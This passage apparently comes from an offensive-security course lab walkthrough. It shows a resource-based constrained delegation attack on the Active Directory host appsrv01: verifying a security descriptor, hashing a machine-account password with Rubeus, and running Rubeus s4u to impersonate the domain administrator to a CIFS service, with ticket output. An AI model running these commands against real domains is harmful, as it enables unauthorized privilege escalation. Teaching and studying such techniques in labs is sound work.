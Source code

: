 ```
PropagationFlags   : None
AuditFlags         : None

PS C:\tools> ConvertFrom-SID S-1-5-21-3776646582-2086779273-4091361643-2101
PROD\myComputer$
```

> Listing 40 - Verifying the SID in the SecurityDescriptor

The _SecurityDescriptor_ was indeed set correctly in the _msDS-AllowedToActOnBehalfOfOtherIdentity_ property for appsrv01.

Now we can begin our attack in an attempt to compromise appsrv01. We'll start by obtaining the hash of the computer account password with Rubeus.

```
PS C:\tools> .\Rubeus.exe hash /password:h4x
...

[*] Action: Calculate Password Hash(es)

[*] Input password             : h4x
[*]       rc4_hmac             : AA6EAFB522589934A6E5CE92C6438221

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```

> Listing 41 - Calculate NTLM hash with Rubeus

In the previous section, we used the Rubeus asktgt command to request a TGT before invoking the s4u command. We can also directly submit the username and password hash to the s4u command, which will implicitly call asktgt and inject the resultant TGT, after which the S4U extensions will be invoked.

```
PS C:\tools> .\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt
...

[*] Action: S4U

[*] Using rc4_hmac hash: AA6EAFB522589934A6E5CE92C6438221
[*] Building AS-REQ (w/ preauth) for: 'prod.corp1.com\myComputer$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFFDCCBRCgAwIBBaEDAgEWooIEI...


[*] Action: S4U

[*] Using domain controller: CDC01.prod.corp1.com (192.168.120.70)
[*] Building S4U2self request for: 'myComputer$@PROD.CORP1.COM'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'administrator@PROD.CORP1.COM' to 'myComputer$@PROD.CORP1.COM'
[*] base64(ticket.kirbi):

      doIFhDCCBYCgAwIBBaEDAgEWooIEi...

[*] Impersonating user 'administrator' to target SPN 'CIFS/appsrv01.prod.corp1.com'
[*] Using domain controller: CDC01.prod.corp1.com (192.168.120.70)
[*] Building S4U2proxy request for service: 'CIFS/appsrv01.prod.corp1.com'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'CIFS/appsrv01.prod.corp1.com':

      doIGbDCCBmigAwIBBaEDAgEWooIFY...
```
